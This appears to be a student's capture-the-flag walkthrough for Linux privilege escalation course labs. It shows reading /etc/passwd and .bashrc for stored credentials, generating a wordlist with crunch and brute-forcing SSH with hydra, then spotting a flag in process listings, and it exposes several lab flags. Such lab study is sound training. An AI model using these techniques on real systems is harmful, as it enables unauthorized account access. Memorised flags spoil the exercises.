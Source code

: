 # User Trails

2. Connect to the VM 2 machine with the provided credentials and try to get the flag that resides under another user's file.

```bash
# Enumerate users
cat /etc/passwd
	root:x:0:0:root:/root:/bin/bash
	...
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	...
	sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
	...
	joe:x:1000:1000:joe,,,:/home/joe:/bin/bash
	systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
	eve:x:1001:1001:,,,:/home/eve:/bin/bash
	...

cat .bashrc
	# ~/.bashrc: executed by bash(1) for non-login shells.
	# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
	# for examples
	
	# If not running interactively, don't do anything
	case $- in
	    *i*) ;;
	      *) return;;
	esac
	
	# don't put duplicate lines or lines starting with space in the history.
	# See bash(1) for more options
	export SCRIPT_CREDENTIALS="lab"
	HISTCONTROL=ignoreboth
	...

# In attack machine create wordlist to attempt SSH brute force
crunch 6 6 -t Lab%%% > wordlist                                                 ## NOTE!!!!!!    <view below>
	Crunch will now generate the following amount of data: 7000 bytes
	0 MB
	0 GB
	0 TB
	0 PB
	Crunch will now generate the following number of lines: 1000

hydra ssh://192.168.231.214 -l eve -P wordlist
	...
	[DATA] attacking ssh://192.168.231.214:22/
	[22][ssh] host: 192.168.231.214   login: eve   password: Lab123
```
	- ## NOTE!!!!!!    For some reason, even though stored creds show a lowercase 'l', the password uses the uppercase.  Could be a course mats issue?

- Login as `eve` & retrieve flag
```bash
cat .bashrc
	  elif [ -f /etc/bash_completion ]; then
		. /etc/bash_completion
	  fi
	fi
	export PASSWORD=OS{d95b244a2df03c878ca3ca21b607901a}
```


# Service Footprints

2. Connect to VM 2 as the _joe_ user and retrieve the flag using one of the methods explained in this section.
```bash
watch -n 5 "ps -aux | grep OS{"
	Every 5.0s: ps -aux | grep OS{                                                                      debian-privesc: Wed May  1 14:49:01 2024
	
	root      1321  0.0  0.3  15328  6476 ?        S    14:47   0:00 python3 /root/.scripts/flag4.py OS{ecfa3948eb56a2bf37eff4bd96cfe866}
	joe       1554  0.0  0.1   6376  3324 pts/1    S+   14:48   0:00 watch -n 5 ps -aux | grep OS{
	joe       1593  0.0  0.0   6376   872 pts/1    S+   14:49   0:00 watch -n 5 ps -aux | grep OS{
	joe       1594  0.0  0.0   2384   696 pts/1    S+   14:49   0:00 sh -c ps -aux | grep OS{
	joe       1596  0.0  0.0   6072   820 pts/1    S+   14:49   0:00 grep OS{
```


# Insecure File Permissions

